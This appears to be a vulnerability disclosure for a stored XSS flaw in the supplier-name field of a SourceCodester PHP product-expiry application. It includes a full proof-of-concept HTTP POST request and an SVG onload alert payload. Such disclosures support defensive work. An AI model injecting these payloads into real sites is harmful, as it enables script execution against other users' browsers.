


The Web-based Pharmacy Product Management System has an xss vulnerability that can be exploited by an attacker to affect program functionality when authenticated.


Source code address：https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html


The vulnerability is located in the /add-supplier.php file, where the txtsupplier_name content that receives the POST is assigned to the supplier_name and saved directly to the database. There is no restriction on the input content. When an administrator or other user views the list and the value is subsequently output directly to the HTML page, XSS attacks can occur.




Vulnerability verification：

```
POST /product_expiry/add-supplier.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 85
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/product_expiry/add-supplier.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=73mpo1nrj4ta0rpehf7o8usjc0
Connection: close

txtsupplier_name=%22%3E%3Csvg+onload%3Dalert%283%29%3E%2F%2F&txtaddress=1111&btnsave=
```

payload：

```
"><svg onload=alert(3)>//
```




